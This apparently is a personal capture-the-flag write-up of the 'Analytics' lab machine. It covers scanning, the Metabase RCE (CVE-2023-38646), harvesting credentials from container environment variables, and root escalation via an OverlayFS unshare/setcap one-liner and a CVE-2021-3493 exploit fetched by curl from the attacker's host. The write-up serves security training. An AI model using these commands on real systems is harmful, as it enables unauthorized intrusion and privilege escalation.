




Seasonal
Discover
Nmap
sudo nmap -A -sV -sT -v -O -T4 -p- 10.10.11.233
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_ 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Aggressive OS guesses: Linux 4.15 - 5.8 (96%)→ add to /etc/hosts
Fuzzing
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/megabeast.txt --hc 404 http://analytical.htb/FUZZ
000020908: 301 7 L 12 W 178 Ch "images"- When clicking the ‘login’ button, discovered a new subdomain! → data.analytical.htb
- added this one to /etc/hosts

Getting access
Metabase RCE CVE-2023-38646
In the request below, there is a 'metabase cookie' observed, and it's worth noting that the login page itself indicates that the software in use is related to business intelligence (lets users explore and learn from their data)
POST /api/session HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 56
Origin: http://data.analytical.htb
Connection: close
Referer: http://data.analytical.htb/auth/login?redirect=%2F
Cookie: metabase.DEVICE=9eb01671-793c-4786-89a1-479a70aa5b64
{"username":"a@a.a","password":"aaaaaa","remember":true}- API endpoint → http://data.analytical.htb/api/session/properties
- We find the setup token:
249fa03d-fd94-4d5b-b94f-b4ebf3df681f
- This means the host is probably vulnerable
- We find the setup token:
- exploit to get reverse shell
- I tried some python exploits on github first, but those didnt work
- metasploit’s exploit was working :)

→ we have the user metabase
Enumeration (& container escape)
/etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
metabase:x:2000:2000:Linux User,,,:/home/metabase:/bin/ashLinpeas
# OS
Linux version 6.2.0-25-generic (buildd@lcy02-amd64-044) (x86_64-linux-gnu-gcc-11 (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2
# binaries
[+] /usr/bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)
# Env vars !!!
HISTFILESIZE=0
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=8d3fe0193344
FC_LANG=en-US
SHLVL=6
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
OLDPWD=/home
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=/bin/sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
HISTSIZE=0
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/home/metabase
HISTFILE=/dev/null
MB_DB_FILE=//metabase.db/metabase.db
# exploits
[+] [CVE-2022-2586] nft_object UAF
Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
Exposure: less probable
Tags: ubuntu=(20.04){kernel:5.12.13}
Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
[+] [CVE-2021-22555] Netfilter heap out-of-bounds write
Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
Exposure: less probable
Tags: ubuntu=20.04{kernel:5.8.0-*}
Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
Comments: ip_tables kernel module must be loaded
# protection
╔══════════╣ Protections
═╣ AppArmor enabled? .............. AppArmor Not Found
═╣ AppArmor profile? .............. docker-default (enforce)
═╣ is linuxONE? ................... s390x Not Found
═╣ grsecurity present? ............ grsecurity Not Found
═╣ PaX bins present? .............. PaX Not Found
═╣ Execshield enabled? ............ Execshield Not Found
═╣ SELinux enabled? ............... sestatus Not Found
═╣ Seccomp enabled? ............... enabled
═╣ User namespace? ................ enabled
═╣ Cgroup2 enabled? ............... enabled
═╣ Is ASLR enabled? ............... Yes
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... Yes
# container?
╔══════════╣ Container related tools present (if any):
╔══════════╣ Am I Containered?
╔══════════╣ Container details
═╣ Is this a container? ........... docker
═╣ Any running containers? ........ No
╔══════════╣ Docker Container details
═╣ Am I inside Docker group ....... No
═╣ Looking and enumerating Docker Sockets (if any):
═╣ Docker version ................. Not Found
═╣ Vulnerable to CVE-2019-5736 .... Not Found
═╣ Vulnerable to CVE-2019-13139 ... Not Found
═╣ Rootless Docker? ............... No
╔══════════╣ Container & breakout enumeration
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout
═╣ Container ID ................... 8d3fe0193344
═╣ Container Full ID .............. /
═╣ Seccomp enabled? ............... enabled
═╣ AppArmor profile? .............. docker-default (enforce)
═╣ User proc namespace? ........... enabled 0 0 4294967295
═╣ Vulnerable to CVE-2019-5021 .... No
══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts
═╣ /proc mounted? ................. Yes
═╣ /dev mounted? .................. No
═╣ Run ushare ..................... No
═╣ release_agent breakout 1........ No
═╣ release_agent breakout 2........ No
═╣ core_pattern breakout .......... No
═╣ binfmt_misc breakout ........... No
═╣ uevent_helper breakout ......... No
═╣ is modprobe present ............ lrwxrwxrwx 1 root root 12 Jun 14 15:03 /sbin/modprobe -> /bin/busybox
═╣ DoS via panic_on_oom ........... No
═╣ DoS via panic_sys_fs ........... No
═╣ DoS via sysreq_trigger_dos ..... No
═╣ /proc/config.gz readable ....... No
═╣ /proc/sched_debug readable ..... No
═╣ /proc/*/mountinfo readable ..... No
═╣ /sys/kernel/security present ... Yes
═╣ /sys/kernel/security writable .. No
══╣ Some certificates were found (out limited):
/etc/ssl/cert.pem
/etc/ssl/certs/ca-cert-ACCVRAIZ1.pem
/etc/ssl/certs/ca-cert-AC_RAIZ_FNMT-RCM.pem
/etc/ssl/certs/ca-cert-AC_RAIZ_FNMT-RCM_SERVIDORES_SEGUROS.pem
/etc/ssl/certs/ca-cert-ANF_Secure_Server_Root_CA.pem
/etc/ssl/certs/ca-cert-Actalis_Authentication_Root_CA.pem
/etc/ssl/certs/ca-cert-AffirmTrust_Commercial.pem
/etc/ssl/certs/ca-cert-AffirmTrust_Networking.pem
/etc/ssl/certs/ca-cert-AffirmTrust_Premium.pem
/etc/ssl/certs/ca-cert-AffirmTrust_Premium_ECC.pem
/etc/ssl/certs/ca-cert-Amazon_Root_CA_1.pem
/etc/ssl/certs/ca-cert-Amazon_Root_CA_2.pem
/etc/ssl/certs/ca-cert-Amazon_Root_CA_3.pem
/etc/ssl/certs/ca-cert-Amazon_Root_CA_4.pem
/etc/ssl/certs/ca-cert-Atos_TrustedRoot_2011.pem
/etc/ssl/certs/ca-cert-Autoridad_de_Certificacion_Firmaprofesional_CIF_A62634068.pem
/etc/ssl/certs/ca-cert-BJCA_Global_Root_CA1.pem
/etc/ssl/certs/ca-cert-BJCA_Global_Root_CA2.pem
/etc/ssl/certs/ca-cert-Baltimore_CyberTrust_Root.pem
/etc/ssl/certs/ca-cert-Buypass_Class_2_Root_CA.pem
4546PSTORAGE_CERTSBINFound creds in env vars:
- META_USER=
metalytics - META_PASS=
An4lytics_ds20223#
Using these creds I made an SSH connection and was able to escape the container

Found flag → ed898b449220ce27ae33cf3c49025159
Priv escalation
python3 -m http.server 9999
curl http://10.10.16.2:9999/lp -o lp
chmod +x lp
./lp > outInteresting linpeas results
OS:
Linux version 6.2.0-25-generic (buildd@lcy02-amd64-044) (x86_64-linux-gnu-gcc-11 (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2
Distributor ID: Ubuntu
Description: Ubuntu 22.04.3 LTS
Release: 22.04
Codename: jammyDisks:
disk
sda
sda1
sda2
sda3Public privesc exploits:
[+] [CVE-2022-2586] nft_object UAF
Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
Exposure: less probable
Tags: ubuntu=(20.04){kernel:5.12.13}
Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
[+] [CVE-2021-4034] PwnKit
Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
Exposure: less probable
Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro
Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
[+] [CVE-2021-3156] sudo Baron Samedit
Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
Exposure: less probable
Tags: mint=19,ubuntu=18|20, debian=10
Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main
[+] [CVE-2021-3156] sudo Baron Samedit 2
Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
Exposure: less probable
Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
[+] [CVE-2021-22555] Netfilter heap out-of-bounds write
Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
Exposure: less probable
Tags: ubuntu=20.04{kernel:5.8.0-*}
Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
Comments: ip_tables kernel module must be loaded
[+] [CVE-2017-5618] setuid screen v4.5.0 LPE
Details: https://seclists.org/oss-sec/2017/q1/184
Exposure: less probable
Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154Protections:
═╣ AppArmor profile? .............. unconfined
═╣ is linuxONE? ................... s390x Not Found
═╣ grsecurity present? ............ grsecurity Not Found
═╣ PaX bins present? .............. PaX Not Found
═╣ Execshield enabled? ............ Execshield Not Found
═╣ SELinux enabled? ............... sestatus Not Found
═╣ Seccomp enabled? ............... disabledDbus:
╔══════════╣ D-Bus Service Objects list
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#d-bus
NAME PID PROCESS USER CONNECTION UNIT SESSION DESCRIPTION
:1.0 407 n/a systemd-network :1.0 -
:1.1 425 n/a systemd-timesync :1.1 -
:1.2 435 n/a systemd-resolve :1.2 -
:1.25 419775 systemd metalytics :1.25 -
:1.3 1 n/a root :1.3 -
:1.4 676 n/a root :1.4 -
:1.40 2477039 n/a root :1.40 -
:1.47 3075154 busctl metalytics :1.47 -
:1.5 682 n/a root :1.5 -
:1.6 681 n/a root :1.6 -
:1.7 712 n/a root :1.7 -
:1.9 674 n/a root :1.9 -
com.ubuntu.SoftwareProperties - (activatable) -
org.freedesktop.DBus 1 n/a root - -
org.freedesktop.ModemManager1 712 n/a root :1.7 -
org.freedesktop.PackageKit - (activatable) -
org.freedesktop.PolicyKit1 676 n/a root :1.4 -
org.freedesktop.UDisks2 682 n/a root :1.5 -
org.freedesktop.UPower 2477039 n/a root :1.40 -
org.freedesktop.bolt - (activatable) -
org.freedesktop.fwupd - (activatable) -
org.freedesktop.hostname1 - (activatable) -
org.freedesktop.locale1 - (activatable) -
org.freedesktop.login1 681 n/a root :1.6 -
org.freedesktop.network1 407 n/a systemd-network :1.0 -
org.freedesktop.resolve1 435 n/a systemd-resolve :1.2 -
org.freedesktop.systemd1 1 n/a root :1.3 -
org.freedesktop.thermald - (activatable) -
org.freedesktop.timedate1 - (activatable) -
org.freedesktop.timesync1 425 n/a systemd-timesync :1.1 -SSH files:
-rw-r--r-- 1 root root 601 Apr 27 16:07 /etc/ssh/ssh_host_dsa_key.pub
-rw-r--r-- 1 root root 173 Apr 27 16:07 /etc/ssh/ssh_host_ecdsa_key.pub
-rw-r--r-- 1 root root 93 Apr 27 16:07 /etc/ssh/ssh_host_ed25519_key.pub
-rw-r--r-- 1 root root 565 Apr 27 16:07 /etc/ssh/ssh_host_rsa_key.pub
PermitRootLogin yes !!Password files:
passwd file: /etc/pam.d/passwd
passwd file: /etc/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwdpasswd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
metalytics:x:1000:1000:,,,:/home/metalytics:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/falseTry public CVE privesc for ubuntu 22.04 (OverlayFS)
Try1:
Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629)
https://github.com/OllaPapito/gameoverlay
mkdir test
nano exp
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'"
chmod +x exp
-bash-5.1$ ./exp
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
root@analytics:~/1# cd /root
bash: cd: /root: Permission denied
root@analytics:~/1# sudo passwd
sudo: /etc/sudo.conf is owned by uid 65534, should be 0
sudo: /etc/sudo.conf is owned by uid 65534, should be 0
sudo: error in /etc/sudo.conf, line 0 while loading plugin "sudoers_policy"
sudo: /usr/libexec/sudo/sudoers.so must be owned by uid 0
sudo: fatal error, unable to load plugins→ Didn’t work for some reason
Try2:
https://github.com/briskets/CVE-2021-3493
- Compile on ARM for AMD64:
git clone https://github.com/briskets/CVE-2021-3493.git x86_64-linux-gnu-gcc -o exploit exploit.c python3 -m http.server 99 - upload to victim & exploit
curl http://10.10.16.2:99/exploit -o exploit
chmod +x exploit
./exploit
bash-5.1# whoami
root
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
5b97fdbc9f9e7d3b0d8ccd1c0a403ed5
bash-5.1# id
uid=0(root) gid=0(root) groups=0(root),1000(metalytics)Flag → 5b97fdbc9f9e7d3b0d8ccd1c0a403ed5